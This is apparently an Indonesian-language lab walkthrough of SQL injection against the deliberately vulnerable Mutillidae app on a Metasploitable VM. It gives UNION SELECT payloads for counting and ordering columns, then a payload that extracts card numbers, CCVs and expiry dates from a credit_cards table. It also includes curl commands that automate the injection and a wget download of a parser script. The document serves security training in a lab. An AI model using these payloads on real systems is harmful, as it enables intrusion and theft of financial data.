 SQL Injection (Contoh #1)
Pada halaman User Info, lakukan inspect element pada form Name 

dan ubah nilai size menjadi 100.
	"size=100"
Isi form Name dengan string berikut
	' union select null -- //selalu tambahkan spasi setelah 

"--"
Klik View Account Details
Keterangan: Jumlah null melambangkan jumlah field pada tabel. 

Hasil error disebabkan karena jumlah field tidak sesuai.

SQL Injection (Contoh #2)
Ulangi langkah pada inspect element
Isi form Name dengan string berikut
	' union select null,null,null,null,null -- //selalu 

tambahkan spasi setelah "--"
Klik View Account Details
Keterangan: Untuk mengetahui jumlah field pada tabel dengan 

diulang dengan mencoba-coba hingga tidak terjadi error. Pada 

contoh diatas jumlah field-nya ada 5 sehingga ditulis null 

sebanyak 5. Hasilnya kosong karena nilai yang dimasukkan adalah 

null.

SQL Injection (Contoh #3)
Isi form Name dengan string berikut
	' union select 1,2,3,4,5 -- //selalu tambahkan spasi 

setelah "--"
Keterangan: Tujuannya adalah untuk mencari tahu urutan field pada 

tabel. Urutan field username, password, dan signature didapatkan 

sesuai dengan nilai yang dimasukkan.

SQL Injection (Contoh #4)
Isi form Name dengan string berikut
	' union select ccid,ccnumber,ccv,expiration,null from 

credit_cards --  //selalu tambahkan spasi setelah "--"
Keterangan: Tujuannya adalah untuk mencari mengambil nilai dari 

tabel credit_cards sesuai dengan urutannya. 
	Username berisi ccnumber
	Password berisi ccv
	signature berisi expiration

SQL Injection (Contoh #5)
Tujuannya sama dengan Contoh #4 dengan perbedaan pada metode yang 

menggunakan curl.
Buka terminal dan jalankan perintah dibawah
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent 

"Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data 

"page=user-info.php&username=%27+union+select+ccid%2Cccnumber

%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-

info-php-submit-button=View+Account+Details" --location "http://

[ip_metasploit]/mutillidae/index.php" | grep -i "Username=" | awk 

'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> 

'{print $2}'
Maka hasilnya akan sama dengan Contoh #4.

Untuk menyimpan hasil kedalam sebuah file jalankan perintah 

berikut
	curl -b crack_cookies.txt -c crack_cookies.txt --user-

agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --

data "page=user-info.php&username=%27+union+select+ccid

%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--

+&password=&user-info-php-submit-button=View+Account+Details" --

location "http://[ip_metasploit]/mutillidae/index.php" | grep -i 

"Username="  > lesson8.txt
	cat lesson8.txt
Karena hasilnya susah dibaca, download dan jalankan output parser

	cd /root
	wget 

http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/

MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
	mv lesson8.pl.TXT lesson8.pl
	chmod 700 lesson8.pl
	./lesson8.pl